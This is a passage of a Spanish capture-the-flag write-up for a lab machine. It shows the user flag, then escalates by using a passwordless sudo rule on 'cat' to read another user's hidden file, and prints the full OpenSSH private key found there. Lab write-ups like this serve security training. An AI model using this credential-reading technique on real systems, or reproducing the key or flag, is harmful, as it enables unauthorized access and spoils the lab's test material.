 > user.txt

```
hmvicanseeforever
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for sophia on visions:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sophia may run the following commands on visions:
    (ALL : ALL) NOPASSWD: /usr/bin/cat /home/isabella/.invisible
```

Vemos que podemos leer como el usuario `root` el archivo llamado `.invisible` por lo que vamos hacerlo.

```shell
sudo cat /home/isabella/.invisible
```

Info:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABBMekPa3i
1sMQAToGnurcIWAAAAEAAAAAEAAAEXAAAAB3NzaC1yc2EAAAADAQABAAABAQDNAxlJldzm
IgVNFXbjg51CS4YEuIxM5gQxjafNJ/rzYw0sOPkT9sL6dYasQcOHX1SYxk5E+qD8QNZQPZ
GfACdWDLwOcI4LLME0BOjARwmrpU4mJXwugX4+RbGICFMgY8ZYtKXEIoF8dwKPVsBdoIwi
lgHyfJD4LwkqfV6mvlau+XRZZBhvlNP10F0SAAZqBaA9y7hRWJO/XcCZC6HzJKzloAL2Xw
GvAMzgtPH/wj06NoOFjmVGMfmmHzCwgc+fLOeXXYzFeRNPH3cVExc+BnB8Ju6CFa6n7VBV
HLCYJ3CcgKnxv6OwVtkoDi0UEFUOefELQV7fZ+g1sZt/+2XPsmcZAAAD0E8RIvVF4XlKJq
INtHdJ5QJZCuq2ufynbPNiHF53PqSlmC//OkQZMWgJ5DcbzMJ92IqxRgjilZZUOUbE/SFI
PViwmpRWIGAhlyoPXyV513ukhb4UngYlgCP9qC4Rbn+Tp9Fv7lnAoD0DsmwITM2e/Z65AD
/i/BqrJ6scNEN0q+qNr3zOVljMZx+qy8cbuDn9Tbq2/N+mcoEysfjfOaoJIgVJnLx1XE6r
+Y9UcRyPAYs+5TB1Nz/fpnBo7vesOu5XLUqCBCphFGmdMCdSGYZAweitjQ+Mq36hQmCtSs
Dwcbjg8vy5LJ+mtJXA7QhqgAfXWnLLny4NeCztUnTG0NLjbLR6M5e+HSsi2EqDYoGNpWld
l4YzVPQoFMIaUJOGTc+VfkMWbQhzpiu66/Du8dwhC+p6QSmwhV/M70eWaH2ZVjK3MThg9K
CVugFsLxioqlp/rnE1oq7apTBX6FOjwz0ne+ytTVOQrHuPTs2QL4PlCvhPRoIuqydleFs4
rdtzE6b46PexXlupewywiO5AVzbfSRAlCYwiwV42xGpYsNcKhdUY+Q9d9i9yudjIFoicrA
MG9hxr7/DJqEY311kTglDEHqQB3faErYsYPiOL9TTZWnPLZhClrPbiWST5tmMWxgNE/AKY
R7mKGDBOMFPlBAjGuKqR6zk5DEc3RzJnvGjUlaT3zzdVmxD8SpWtjzS6xHaSw/WOvB0lsg
Dhf+Gc7OWyHm2qk+OMK9t0/lbIDfn3su0EHwbPjYTT3xk7CtG4AwiSqPve1t9bOdzD9w9r
TM7am/2i/BV1uv28823pCuYZmNG7hu5InzNC/3iTROraE31Qqe3JCNwxVDcHqb8s6gTN+J
q6OyZdvNNiVQUo1l7hNUlg4he4q1kTwoyAATa0hPKVxEFEISRtaQln5Ni8V+fos8GTqgAr
HH2LpFa4qZKTtUEU0f54ixjFL7Lkz6owbUG7Cy+LuGDI1aKJRGCZwd5LkStcF/MAO3pulc
MsHiYwmXT3lNHhkAd1h05N2yBzXaH+M3sX6IpNtq+gi+9F443Enk7FBRFLzxdJ+UT40f6E
+gyA2nBGygNhvQHXcu36A8BoE+IF7YVpdfDmYJffbTujtBUj2vrdsqVvtGUxf0vj9/Sv+J
HN9Yk2giXN8VX7qhcyLzUktmdfgd6JNAx+/P7Kh3HV5oWk1Da+VJS+wtCg/oEVSVyrEOpe
skV8zcwd+ErNODEHTUbD/nDARX8GeV158RMtRdZ5CJZSFjBz2oPDPDVpZMFNhENAAwPnrJ
KD/C2J6CKylbopifizfpEkmVqJRms=
-----END OPENSSH PRIVATE KEY-----
```
